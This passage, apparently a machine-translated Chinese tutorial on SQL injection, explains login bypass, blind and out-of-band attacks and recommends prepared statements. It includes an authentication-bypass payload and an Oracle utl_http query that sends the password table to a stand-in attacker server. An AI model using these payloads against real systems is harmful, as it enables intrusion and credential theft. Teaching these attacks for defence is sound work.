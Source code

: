 如果您要执行以下请求

```
GET https://my-website.com/login.php?username=admin&password=" or "1"="1
```

SQL 将返回一个大于 0 的计数(假设表不为空)，在应用程序中该计数将被评估为真。
基本上，您将被认证为 *admin* ，因为 SQL 将扩展为:

```
SELECT COUNT(*) FROM user WHERE username = "admin" and password = "" OR "1"="1"
```

它基本上匹配任何用户名为 *admin* 和空密码或……的用户。“任何其他情况”😅。

## 基于时间的盲 SQLi

攻击者发送他的恶意负载，但看不到结果集。

相反，他们必须观察查询返回需要多长时间。基于此，攻击者可以了解注射是否有效。

# 带外 SQLi

只有当数据库具有允许进行 DNS 或 HTTP 请求的某些功能时，这种形式的攻击才会发生。

即使在这种情况下，攻击者也无法在攻击后取回数据。因此，他们不得不求助于 Oracle 的 UTL_HTTP 包或 MSSQL 的 xp_dirtree 命令之类的功能来将结果集发送给自己。

例如，在 Oracle 上，您可以创建一个最终评估为(粗体=恶意输入)的请求:

```
SELECT [some_fields] FROM some_table WHERE field = **SELECT utl_http.request('http://malicious-server.com/?' || (SELECT password FROM users)) FROM DUAL**
```

# 可以做些什么来防止这一切？

很难相信，但答案非常简单:**准备好的报表**。

N 那现在被认为是一种错误的/过时的思维方式。

**预准备语句**是一种用于高效地重复执行相同或相似数据库语句的功能:它们就像您的查询的模板一样工作:

```
SELECT * FROM products WHERE id = ?
SELECT * FROM products WHERE id = @id
-- etc...: different DBMS have a slightly different notation
```

数据库解析、执行、翻译然后存储语句，而不执行它。

只有当应用程序为语句提供值时，这些值才会绑定到语句和检索到的结果集。

因为查询和不可信输入是在不同的时间和不同的上下文中提供的，所以两者不会“混淆”,并且不可信输入不能改变原始查询的含义。

不同的语言和不同的 DBMS 意味着不同的库和稍微不同的使用预准备语句的方式。

我会试着列出每种语言的一些例子。

你的语言/框架不在这个列表中吗？
欢迎留下评论/建议，我会修改列表！
